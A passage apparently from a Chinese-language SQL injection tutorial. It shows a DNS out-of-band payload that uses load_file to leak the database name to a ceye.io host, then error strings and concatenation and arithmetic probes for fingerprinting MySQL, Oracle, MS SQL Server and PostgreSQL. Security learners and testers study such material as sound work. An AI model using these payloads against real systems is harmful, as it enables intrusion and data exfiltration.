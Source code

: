 ```sql
# 使用LOAD_FILE()和INTO OUTFILE结合，通过向外部服务器请求文件。
select load_file(concat('\\\\',(select database()),'.7dxfaj.ceye.io\\abc'))
```



## 三、数据库识别

### （一）通过报错信息识别数据库

#### 1、MySql

```none
You have an error in your SQL syntax; check the manualthat corresponds to your MySQL server version for theright syntax to use near ''' at line 1 
```

#### 2、Oracle

```none
ORA-00933: SQL command not properly ended 
```

#### 3、MS SQL Server

```none
Microsoft SQL Native Client error ‘80040e14’Unclosed quotation mark after the character string 
```

#### 4、PostgreSQL

```none
Query failed: ERROR: syntax error at or near 
```

### （二）利用数据库语句推断

根据数据库连接字符串方式的不同进行识别 如我们查询字符串kinght得到了一个结果，可以在请求中提交特殊的值，测试用各种方法连接，以生成kinght字符串 如过查询结果相同，就可以确定是哪一种数据库

```none
Oracle:    'kin'||'ght'
MS-SQL:    'kin'+'ght'
MySQL:     'kin' 'ght'
PostgreSQL：'kin' || 'ght'
```

如果注入数字数据，可以使用下面的攻击语句来识别字符串。 每个语句在其对应的数据库中求值结果为0，在其他数据库中则会报错。

```none
Oracle:    BITAND(1,1)-BITAND(1,1)
MS-SQL:    @@PACK_RECEIVED-@@PACK_RECEIVED
MySQL:     CONNECTION_ID()-CONNECTION_ID()
```



## 四、常用函数
